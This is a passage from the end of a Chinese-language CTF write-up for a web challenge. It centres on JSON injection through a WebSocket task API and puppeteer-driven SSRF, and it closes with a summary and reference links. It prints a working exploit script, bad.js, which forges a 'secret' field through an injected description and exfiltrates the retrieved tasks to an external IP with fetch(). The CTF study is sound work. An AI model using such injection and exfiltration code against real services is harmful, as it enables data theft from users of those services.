 调用`POST /decrpy`接口解密出flag

![7](7.png)

bad.js内容为
```js
const ws = new WebSocket(`ws://127.0.0.1/ws`);
ws.onopen = () => {
    ws.send(JSON.stringify(
        {
             action: 'add',
              title: "1",
              description: "111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\",\"secret\": \"73c12045f8de028073fdbe7931f2ff86\"}" 
    }));
    ws.send(JSON.stringify({ action: 'get' }))
}
ws.onmessage = async (msg) => {
    const data = JSON.parse(msg.data);
    if (data.success) {
        if (data.action === 'get') {
            fetch("http://47.113.144.177:8000/" + JSON.stringify(data.tasks ))
        }
        else if (data.action === 'add') {
        }
    }
}
```

## 0x07 总结

我觉得这道题主要考察一个代码审计能力以及puppeteer+SSRF相关的知识，

关于puppeteer这块，好像挺多可玩的，我记得之前做过一次用img的onerror来爆破flag的，还有去年研究生赛的CSP report-uri。

其次就是代码审计，事后我把json注入那段代码发给chatgpt并问它存不存在漏洞，一眼就被他看出来了

```
Yes, there are several potential security vulnerabilities in this code:

1. Injection vulnerability: The `title`, `description`, and `secret` fields in the add action are concatenated to form a JSON string without any input validation or sanitization. An attacker could potentially inject malicious code into these fields that could lead to various types of attacks, such as SQL injection, cross-site scripting (XSS), or remote code execution.
```

看来以后可以考虑用它来辅助代码审计了。

## 0x08 参考链接

[浅析NodeJS](https://xz.aliyun.com/t/11791#toc-8)
[跨源资源共享（CORS）](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS)
[JavaScript 通信 / CORS、WebSocket](https://www.jianshu.com/p/a83c63db731f)
[JSON注入入门](https://www.wangan.com/p/7fy7f42cbeff32a2)